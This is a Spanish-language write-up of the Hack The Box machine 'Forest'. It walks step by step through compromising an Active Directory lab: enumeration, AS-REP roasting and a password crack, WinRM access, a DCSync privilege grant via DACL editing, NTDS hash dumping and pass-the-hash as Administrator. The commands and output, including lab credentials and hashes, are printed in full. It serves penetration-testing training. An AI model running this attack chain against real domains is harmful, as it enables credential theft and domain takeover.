


# Forest

- **Plataforma:** HTB 
- **Fecha de resolución:** 17/11/2025
- **Autor:** Albr_0x4a

---

## Escaneo de Puertos con Nmap

- **Identificar puertos abiertos:**

- **Comando:** nmap -p- -n -Pn --min-rate 5000 -sS $IP

- **Identificar servicios y versiones en los puertos abiertos:**

- **Comando:** nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49706 -n -Pn -sCV $IP  

```bash
# Nmap 7.94SVN scan initiated Sun Nov 16 15:12:47 2025 as: nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49706 -n -Pn -sCV 10.10.10.161
Nmap scan report for 10.10.10.161
Host is up (0.11s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-11-16 14:19:42Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49706/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2025-11-16T14:20:33
|_  start_date: 2025-11-16T14:13:43
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-11-16T06:20:35-08:00
|_clock-skew: mean: 2h46m49s, deviation: 4h37m09s, median: 6m48s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 16 15:13:57 2025 -- 1 IP address (1 host up) scanned in 70.27 seconds
```
## Enumeración

- Al no tener ningún servicio web, empezamos enumerando SMB, pero no tenemos acceso anónimo, por lo que pasamos a enumerar ldap, el cual nos permite acceso anónimo.

- Aprovechando este acceso, podemos obtener una lista de usuarios válidos:
```bash
❯ rpcclient  $IP -N -U "" -c "enumdomusers" > users
❯ cat users
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```
- Limpiamos la lista para poder acceder directamente a los nombres de usuario:

```bash
❯ cat users | tr ":" " " | awk '{print $2}' | tr -d "[]" > valid_users
❯ cat valid_users
Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

## Obteniendo Credenciales

- Ahora que tenemos una lista de usuarios válidos podemos buscar por aquellos que tienen deshabilitada la preautenticación Kerberos:

```bash
❯ impacket-GetNPUsers htb.local/ -no-pass -dc-ip $IP -usersfile valid_users
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:2bd3c6eef2a65c3fc95338cb87a4b8d1$e0546875d42f2c7ed5d06c057db6f98379661b35a77a61060fad8be632e540381b47519c647dae03cf5f67caf9c814ea24c0af61620da73909c0331a07ae7f683d10c208cd232c0ecaf9ac4f76bbf91906837200e8b4abfafbc6db20968c82526941b4ae4397c217f5b746b09d367a2df597801a887fd18eb79beae17fa9a00ce9045e8427169e7b67fb7645075340e3cdaf3cc7b275f19886d918d8b8052a35df9e088462359de74b817003c4b2031c1c2188fbf7a1cd6a76cbfc104982c0e9d37155b2cc05cb3b7224d051938badd3d7d2c3f4615ebc2b5b73cedd5f0f3f0c0ac0e9b38a44
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```
  
- De forma exitosa obtenemos el hash del usuario `svc-alfresco`, el cual crackeamos con hashcat, utilizando el modo `18200`:

```bash
❯ hashcat -m 18200 hash_1 /usr/share/wordlists/rockyou.txt 
$krb5asrep$23$svc-alfresco@HTB.LOCAL:2bd3c6eef2a65c3fc95338cb87a4b8d1$e0546875d42f2c7ed5d06c057db6f98379661b35a77a61060fad8be632e540381b47519c647dae03cf5f67caf9c814ea24c0af61620da73909c0331a07ae7f683d10c208cd232c0ecaf9ac4f76bbf91906837200e8b4abfafbc6db20968c82526941b4ae4397c217f5b746b09d367a2df597801a887fd18eb79beae17fa9a00ce9045e8427169e7b67fb7645075340e3cdaf3cc7b275f19886d918d8b8052a35df9e088462359de74b817003c4b2031c1c2188fbf7a1cd6a76cbfc104982c0e9d37155b2cc05cb3b7224d051938badd3d7d2c3f4615ebc2b5b73cedd5f0f3f0c0ac0e9b38a44:s3rvice
```

- Ahora poseemos credenciales válidas: `svc-alfresco`:`s3rvice`

- Accedemos al sistema mediante WinRM y obtenemos la primera flag:
  
```powershell
❯ evil-winrm -i $IP -u "svc-alfresco" -p "s3rvice"
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ..
cd *Evil-WinRM* PS C:\Users\svc-alfresco> cd desktop
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> ls


    Directory: C:\Users\svc-alfresco\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       11/16/2025   6:14 AM             34 user.txt
```

## Escalada de Privilegios

- Ahora que tenemos acceso al sistema podemos utilizar `BloodHound` para visualizar el dominio de AD y buscar por posibles rutas para escalar privilegios, para esto utilizamos la herramienta `NetExec` para recolectar los datos necesarios:

```bash
❯ nxc ldap $IP -u "svc-alfresco" -p "s3rvice" --bloodhound -c all  --dns-server $IP
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.10.10.161    389    FOREST           [+] htb.local\svc-alfresco:s3rvice 
LDAP        10.10.10.161    389    FOREST           Resolved collection methods: group, trusts, localadmin, container, dcom, acl, psremote, rdp, objectprops, session
LDAP        10.10.10.161    389    FOREST           Done in 00M 31S
LDAP        10.10.10.161    389    FOREST           Compressing output into /home/albert/.nxc/logs/FOREST_10.10.10.161_2025-11-17_132615_bloodhound.zip
```
- Una vez obtenido el archivo `.zip`, subimos los datos a `BloodHound`, y empezamos a inspeccionar al usuario `svc-alfresco` el cual está bajo nuestro control:



- Como podemos observar, el usuario `svc-alfresco`, es miembro de 9 grupos, de los cuales llama la atención el grupo `ACCOUNT OPERATORS` ya que es un grupo con privilegios. Así que buscamos posibles rutas para escalar privilegios explotando nuestra pertenencia a este grupo.

- Para esto podemos utilizar la opción `Pathfinding` de `BloodHound`, la cual nos permite estableces un punto de partida y un objetivo final, y luego `BloodHound` identifica posibles rutas de explotación:



- Como podemos observar en la imagen anterior, el grupo `ACCOUNT OPERATORS` al que pertenecemos, posee privilegios `GenericAll` sobre el grupo `EXCHANGE WINDOWS PERMISSIONS` y este posee permisos para modificar las DACL en el dominio.

- Esto significa que podemos añadirnos al grupo `EXCHANGE WINDOWS PERMISSIONS` y, a partir de ahí, otorgarnos el privilegio `DcSync` para poder obtener todas las credenciales del dominio.
  
- Empezamos añadiéndonos al grupo `EXCHANGE WINDOWS PERMISSIONS`:

```bash
❯ net rpc group addmem "EXCHANGE WINDOWS PERMISSIONS" "svc-alfresco" -U "DOMAIN"/"svc-alfresco"%"s3rvice" -S $IP
```

- Si no nos da ningún problema, lo interpretamos como exitoso y pasamos a otorgarnos el privilegio `DcSync`:

```bash
❯ dacledit.py -action 'write' -rights 'FullControl' -principal 'svc-alfresco' -target-dn 'dc=htb,dc=local' 'htb.local'/'svc-alfresco':'s3rvice'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20251117-134141.bak
[*] DACL modified successfully!
```

- Ahora podemos obtener las credenciales del dominio:

```bash
❯ secretsdump.py 'htb.local'/'svc-alfresco':'s3rvice'@$IP -just-dc
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
.........
```

- Una vez obtenidas las credenciales podemos relizar `Pass the Hash` con `Evil-WinRM` para conectarnos mediante `WinRM` con el hash nt del usuario `Administrator`: `32693b11e6aa90eb43d32c72a07ceea6`.

```powershell
❯ evil-winrm -i $IP -u "administrator" -H "32693b11e6aa90eb43d32c72a07ceea6"
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls c:\users\administrator\desktop\


    Directory: C:\users\administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       11/17/2025   4:30 AM             34 root.txt
```